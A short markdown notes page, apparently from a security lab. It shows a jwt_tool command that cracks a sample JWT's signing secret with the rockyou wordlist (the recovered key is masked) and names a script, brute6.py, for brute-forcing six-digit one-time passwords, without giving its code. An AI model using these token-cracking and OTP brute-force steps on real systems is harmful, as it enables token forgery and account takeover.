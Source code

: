 # Cracked Jwt using rockyou dictionary 

```
python jwt_tool.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Im9sYUBnbWFpbC5jb20iLCJpYXQiOjE2Nzc0MTU3ODksImV4cCI6MTY3NzQxOTM4OX0.BiY3JQYkFlqWV99yWMfIBNAAVE1U9aEAze_mafSaqCs" --crack -d /usr/share/wordlists/rockyou.txt

SECRETE_KEY : xxxxxxxxxxxxxx 
```




# Bruteforcing 6 digits OTP


```
python brute6.py

```
